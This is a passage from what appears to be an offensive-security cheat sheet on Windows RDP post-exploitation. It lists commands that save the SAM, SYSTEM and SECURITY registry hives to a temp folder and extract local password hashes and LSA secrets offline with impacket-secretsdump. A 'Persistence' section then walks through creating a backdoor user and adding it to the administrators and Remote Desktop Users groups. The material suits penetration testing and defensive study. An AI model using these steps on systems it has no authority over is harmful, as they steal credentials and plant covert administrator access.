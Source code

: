 Dump [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager)
registry hives

> [!example]-
>
> `HKLM\SAM` hive contains local account password hashes
>
> ```sh
> reg save HKLM\SAM C:\Windows\Temp\sam
> ```
>
> `HKLM\SYSTEM` contains boot keys used to decrypt password hashes
>
> ```sh
> reg save HKLM\SYSTEM C:\Windows\Temp\system
> ```
>
> `HKLM\SECURITY` contains [LSA](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)
> secrets which can contain service-accounts secrets, cached/secret credentials
> and keys an attacker can extract offline
>
> ```sh
> reg save HKLM\SECURITY C:\Windows\Temp\security
> ```

Extract hashes with [secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```sh
impacket-secretsdump -sam sam -system system LOCAL
```

___




## Persistence

Create persistent backdoor access to compromised RDP systems

Create backdoor user

> [!example]-
>
> 1. Create new user
>
> ```sh
> net user <user> <password> /add
> ```
>
> 2. Add user to `administrators` group
>
> ```sh
> net localgroup administrators <user> /add
> ```
>
> 3. Add user to `Remote Desktop Users` group
>
> ```sh
> net localgroup "Remote Desktop Users" <user> /add
> ```
